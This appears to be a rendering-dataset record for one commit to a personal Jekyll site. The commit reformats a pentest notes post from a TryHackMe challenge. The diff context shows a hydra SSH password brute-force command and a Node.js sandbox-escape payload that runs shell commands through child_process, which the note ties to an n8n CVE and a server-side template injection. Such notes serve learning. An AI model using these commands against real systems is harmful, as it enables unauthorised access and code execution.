

Before and after one commit to cloudskim/cloudskim.github.io, a Jekyll site: the page built from _posts/2026-10-17-my-notes.md, in a window 1280 px wide and 900 px high, scrolled down 1858 px. Shown: the whole window, without its empty margins (148-1131 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_posts/2026-10-17-my-notes.md
+++ b/_posts/2026-10-17-my-notes.md
@@ -43,7 +43,7 @@ hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.49.158.247
 
 This payload is useful for gaining RCE, it was originally from **n8n Expression Sandbox Escape to RCE (CVE-2025-68613)** but I used in SSTI vulnerability from THM challenge 'PUG', it was a PUG to HTML converter.
 
-global.process.mainModule.require('child_process').execSync('id').toString()
+`global.process.mainModule.require('child_process').execSync('id').toString()`
 
 ---
 
```
